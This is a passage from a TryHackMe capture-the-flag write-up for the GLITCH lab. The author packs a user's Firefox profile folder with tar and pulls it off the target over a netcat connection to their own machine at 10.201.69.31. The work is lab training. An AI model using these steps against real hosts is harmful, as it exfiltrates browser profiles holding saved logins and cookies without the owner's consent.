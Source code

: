 I used the following command:
```
tar -cvf firefox.tgz .firefox
```

This created a compressed archive named `firefox.tgz` containing the `.firefox` directory.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/GLITCH/Images/Screenshot%2017.png)

I then set up a Netcat listener on port `3211` to receive the `firefox.tgz` file from the targeted machine by running:
 ```
nc -lvnp 3211 > firefox.tgz
```

On the target machine, I used the following command to send over the file to my local machine: 
```
nc 10.201.69.31 3211 < firefox.tgz
```

This allowed me to successfully retrieve the `.firefox` contents.

**Disclaimer:** I unfortunately missed capturing a screenshot during the actual file transfer, so I edited the steps into the screenshot to demonstrate what was done, how, and the results.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/GLITCH/Images/Screenshot%2018.png)

Next, I used the following command from my local machine to extract and view the contents of the firefox.tgz file:
```
tar -xvzf firefox.tgz
```

This revealed a directory named `.firefox/b5w4643p.default-release/`, which is recognizable as a Firefox profile folder.
